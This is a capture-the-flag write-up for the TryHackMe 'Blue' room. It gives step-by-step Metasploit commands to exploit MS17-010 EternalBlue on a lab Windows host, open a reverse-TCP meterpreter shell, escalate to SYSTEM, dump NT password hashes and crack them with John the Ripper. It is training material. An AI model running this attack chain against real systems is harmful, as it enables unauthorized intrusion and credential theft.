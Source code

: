 # Write Up for Blue Room
https://tryhackme.com/room/blue

# Task 1
 1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the room RP: Nmap)
 2. How many ports are open with a port number under 1000?
 
'nmap -sC -sV 10.10.104.20': 3

 3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
 
'nmap --script=vuln 10.10.104.20': ms17_010

# Task 2
 1. Start Metasploit
 
'msfconsole'

 2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
 
'search ms17_010': exploit/windows/smb/ms17_010_eternalblue
'use exploit/windows/smb/ms17_010_eternalblue'
I've read that there's issues with the default payloads in meterpreter at the time of writing this, so I set that manually.
'set PAYLOAD windows/x64/meterpreter/reverse_tcp'

 3. Show options and set the one required value. What is the name of this value? (All caps for submission)
 
'options': RHOSTS
Now, I set RHOSTS to the target IP address with 'set RHOSTS 10.10.104.20

4. Run the exploit!
 
First, since I'm on VPN I need to use 'set LHOST tun0', then, 'exploit'. It failed once and was successful on the second try for me.

# Task 3

 1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
 
First ctrl+z, then 'search shell_to_meterpreter': post/multi/manage/shell_to_meterpreter

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
 
'use post/multi/manage/shell_to_meterpreter' then 'options': SESSION

3. Set the required option, you may need to list all of the sessions to find your target here.
 
'sessions' lists our sessions and their IDs, now 'set SESSION 1'

4. Run! If this doesn't work, try completing the exploit from the previous task once more.
 
'exploit'

5. Once the meterpreter shell conversion completes, select that session for use.
 
'sessions -i 1'

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
 
'getsystem', 'shell', 'whoami'

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
 
ctrl+z, 'y', then 'ps'. I am going to use 3064 for the TrustedInstaller.exe.

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
 
'migrate 3604' worked!

# Task 4

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
 
'hashdump': Jon

2. Copy this password hash to a file and research how to crack it. What is the cracked password?
 
I copied the whole hash line starting with jon and ending in ::: then paste that into a file I just named hash.

In a seperate terminal I ran 'john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash'

This gave me the password I needed! There is another way to do it from within metasploit, but I did not have my database setup prior to this.

# Task 5

I took to long getting the right syntax for so I had to reexploit the machine, but coming back in I was stil nt\system

I typed 'cd /' and then 'cat flag1.txt' for the first flag.

I then navigated to /Users/Jon/Documents just to peek AND! found flag 3.

Now where is flag2? The hint is supposed to point us to where windows stores its passwords.

With some googling 'cd /windows/system32/config' and there's flag 2!
